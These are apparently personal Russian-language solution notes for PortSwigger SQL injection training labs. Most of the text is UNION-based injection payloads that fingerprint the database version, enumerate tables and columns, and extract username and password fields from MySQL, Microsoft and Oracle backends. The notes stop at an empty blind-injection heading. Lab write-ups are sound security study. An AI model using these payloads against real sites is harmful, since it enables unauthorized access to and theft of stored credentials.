 Записи решений были не с самого начала

# ==SQL==

Задача: Атака методом SQL-инъекции, запрос типа и версии базы данных на MySQL и Microsoft (https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

В URL строку вставляем ```category=null'+UNION+SELECT+'1', '2' -- - ``` для определения столбцов и затем ```category=null'+UNION+SELECT+@@version, '2' -- -``` для определения версии


Задача: Атака с использованием SQL-инъекций, перечисление содержимого баз данных в базах данных, отличных от Oracle  (https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

Снова узнаем количество столбцов (2) и получаем информацию о таблицах в БД ```null'+UNION+taSELECT+'1',table_name+FROM+information_schema.tables -- -```
Запрашиваем столбцы из таблицы users_zjyufi ```null'+UNION+SELECT+'1',column_name+FROM+information_schema.columns+WHERE+table_name='users_zjyufi' -- -```
Запрашиваем столбцы пароля и логина из таблицы ```null'+UNION+SELECT+password_zopjuj,username_kqwdov+FROM+users_zjyufi -- -```


Задача: Атака с помощью SQL-инъекции, вывод списка содержимого базы данных на Oracle (https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

null'+UNION+SELECT+'1','2'+FROM+dual -- -
null'+UNION+SELECT+table_name,NULL+FROM+all_tables--
null'UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ZQNCEN'-- -
null'UNION+SELECT+PASSWORD_JLVNJQ,USERNAME_XQQPUF+FROM+USERS_ZQNCEN-- -

Задача:  SQL-инъекция UNION атака, определение количества столбцов, возвращаемых запросом (https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

null'+UNION+SELECT+NULL,NULL,NULL -- -

Задача: Атака UNION с помощью SQL-инъекции, нахождение столбца, содержащего текст(https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

null'+UNION+SELECT+NULL,NULL,NULL -- -
null'UNION+SELECT+NULL,'abc',NULL-- -
null'UNION+SELECT+NULL,'NbLytk',NULL-- -

Задача: https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables

Аналогично задаче №2

Задача: https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column

null'+UNION+SELECT+'1',table_name+FROM+information_schema.tables -- -
null'+UNION+SELECT+'1',column_name+FROM+information_schema.columns+WHERE+table_name='users' -- -
null'+UNION+SELECT+'1',username|| '~' || password+FROM+users -- -  ('~' служит разделением вывода, можно использовать || один раз)

Задача: https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses
